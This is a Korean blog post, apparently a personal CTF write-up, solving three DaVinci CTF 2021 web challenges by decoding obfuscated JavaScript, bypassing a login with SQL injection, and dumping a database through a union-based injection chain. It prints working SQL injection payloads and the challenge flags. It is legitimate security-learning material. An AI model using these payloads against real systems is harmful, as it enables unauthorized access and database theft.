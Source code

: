```yaml
---
layout: post
title:  "DaVinci CTF 2021 Writeup"
tags: [CTF]
excerpt: "DaVinciCTF 2021 Writeup"
---
```


## Obfuscation

```
+ Description
    + My password is my secret. You will never find it...
    + To validate this chall, please enter the secret code as the flag.

+ Link
    + http://challs.dvc.tf:5555/
```

+ #### 문제 분석 & 문제 풀이

    문제 링크에 들어가보면

    ![main page](/post-images/DaVinciCTF/2021/WEB/Obfuscation/main-page.png)

    ``If you know it, enter my secret :`` 이라는 텍스트와 입력할 수 있는 공간이 있다.

    한번 테스트로 test를 입력한 다음 Send버튼을 누르면

    하단에 ``HEHE my secret is well kept !`` 이라는 메세지가 나옵니다.

    자세하게 살펴보기 위해

    ``우클릭 -> 페이지 소스 보기`` 로 해당 페이지의 소스코드를 살펴보면 ``<script>`` 태그 안에

    ```js
    var _0x562c=['179dYsldU','502577NKwytj','49301uPrsBV','%64%76%43%54%46%7b%31%74%5f%69%73%5f%6e%30%74%5f%34%5f%73%65%63%72%33%74%5f%34%6e%79%6d%30%72%33%7d','41567Xaicqe','getElementById','2IMuDQu','secret','result','111HrUPrb','238340OvJqoS','1XVHayx','innerHTML','OOO\x20NO\x20you\x20have\x20found\x20my\x20secret\x20!','353385nZcsex','value','1UUUnkm','110191GWccce'];var _0x5ae8=function(_0x34f242,_0x4f6807){_0x34f242=_0x34f242-0x175;var _0x562c5a=_0x562c[_0x34f242];return _0x562c5a;};(function(_0x10ab78,_0x2dad39){var _0x48e1e3=_0x5ae8;while(!![]){try{var _0x2dbbea=parseInt(_0x48e1e3(0x180))+-parseInt(_0x48e1e3(0x181))*parseInt(_0x48e1e3(0x178))+parseInt(_0x48e1e3(0x17d))*parseInt(_0x48e1e3(0x183))+-parseInt(_0x48e1e3(0x177))+parseInt(_0x48e1e3(0x17b))+-parseInt(_0x48e1e3(0x176))*parseInt(_0x48e1e3(0x17f))+-parseInt(_0x48e1e3(0x185))*parseInt(_0x48e1e3(0x17e));if(_0x2dbbea===_0x2dad39)break;else _0x10ab78['push'](_0x10ab78['shift']());}catch(_0x4df530){_0x10ab78['push'](_0x10ab78['shift']());}}}(_0x562c,0x5a3e5));function testSecret(){var _0x56a5a8=_0x5ae8,_0x3ee8ed=_0x56a5a8(0x182),_0x14130d=document[_0x56a5a8(0x184)](_0x56a5a8(0x186))[_0x56a5a8(0x17c)];_0x14130d==unescape(_0x3ee8ed)?document[_0x56a5a8(0x184)](_0x56a5a8(0x175))[_0x56a5a8(0x179)]=_0x56a5a8(0x17a):document[_0x56a5a8(0x184)](_0x56a5a8(0x175))[_0x56a5a8(0x179)]='HEHE\x20my\x20secret\x20is\x20well\x20kept\x20!';}
    ```

    코드 해석하기 어렵게 난독화되어있는 js코드가 있는것을 볼 수 있습니다.

    근데 ``_0x562c`` 변수에 URL Encode되어있는 값이 있는것을 보고 의심이 들어서

    ```
    %64%76%43%54%46%7b%31%74%5f%69%73%5f%6e%30%74%5f%34%5f%73%65%63%72%33%74%5f%34%6e%79%6d%30%72%33%7d
    ```
    [urlencoder](https://www.urldecoder.org/) 사이트에 들어가서 url decode해보니

    ``dvCTF{1t_is_n0t_4_secr3t_4nym0r3}`` 이렇게 FLAG가 나오게 됩니다.

``Flag is dvCTF{1t_is_n0t_4_secr3t_4nym0r3}``


* * *

## Authentication

```
+ Description
    + Can you find a way to authenticate as admin?

+ Link
    + http://challs.dvc.tf:1337/
```

+ #### 문제 분석 & 문제 풀이

    문제 링크에 들어가면 디자인 이쁘게 되어있는 로그인 페이지가 나오게됩니다.

    ![Authentication main page](/post-images/DaVinciCTF/2021/WEB/Authentication/Authentication.png)

    이 문제 설명은 ``Can you find a way to authenticate as admin?`` 즉 admin으로 인증하는 방법을 찾아보라고 한다.

    로그인은 대부분 SQL Injection기법을 사용하는 경우가 많은데 아이디와 비번을 모르니

    Username에 ``' or 1=1 -- '`` 를 넣고 Password에 아무거나 입력하면

    ![Login](/post-images/DaVinciCTF/2021/WEB/Authentication/admin-login.png)

    성공적으로 admin 유저로 로그인되는것을 볼 수 있습니다. 

    하지만 플래그가 바로 안보이는데

    ``우클릭 -> 페이지 소스보기``를 누르면 하단에

    ```html
    <p style="visibility: hidden;">dvCTF{!th4t_w4s_34sy!}</p>
    ```
    
    플래그가 나와있는것을 볼 수 있습니다.
    
    ``dvCTF{!th4t_w4s_34sy!}``

``Flag is dvCTF{!th4t_w4s_34sy!}``

* * *

## Member

```
+ Description
    + Can you get more information about the members?

+ Link
    + http://challs.dvc.tf:1337/members
```

* * *

+ #### 문제 분석

    이 문제는 Authentication문제와 url이 같은데 Authentication문제를 풀어야지 접근이 가능한것 같다.

    로그인이 되어있는 상태에서 ``/member``으로 접근하면

    ![member](/post-images/DaVinciCTF/2021/WEB/Members/members.png)

    Name를 검색하는 부분과 다양한 유저의 데이터들이 나열되어있습니다.

+ #### 문제 풀이

    이 문제 또한 SQLi라고 예측하고 UNION BASED SQL Injection를 시도하여 db 정보를 탈취 하겠습니다.

    ```sql
    ' or 1=1 -- '
    " or 1=1 -- "
    x" UNION SELECT 1 -- "
    x" UNION SELECT 1,2 -- "
    x" UNION SELECT 1,2,3 -- "
    x" UNION SELECT database(),2,3 -- "
    x" UNION SELECT (select group_concat(table_name) from information_schema.tables where table_schema=database()),2,3 -- "
    x" UNION SELECT (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="members"),(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="supa_secret_table"),3 -- "
    x" UNION SELECT (select group_concat(flag) from supa_secret_table),2,3 -- "
    ```

    먼저 SQL구문을 확인하기 위해 ' 또는 " 으로 시도한 다음
    데이터베이스, 테이블, 컬럼을 알아내고 flag 컬럼이 있는것을 보고 

    ```sql
    x" UNION SELECT (select group_concat(flag) from supa_secret_table),2,3 -- "
    ```

    이 SQL 구문으로 FLAG 컬럼에 있는 데이터를 볼 수 있게 구문을 완성 시키면

    ![flag](/post-images/DaVinciCTF/2021/WEB/Members/flag-get.png)

    이렇게 Name 부분에 ``dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}`` 플래그를 탈취하게 됩니다.

``Flag is dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}``

## 후기

시간이 많이 없어서 3문제밖에 못풀었지만
풀지 못한 문제들의 롸업들을 보면서 LDAP injection에 대해 알게됐다.

+ [ctftime](https://ctftime.org/event/1296)

<br>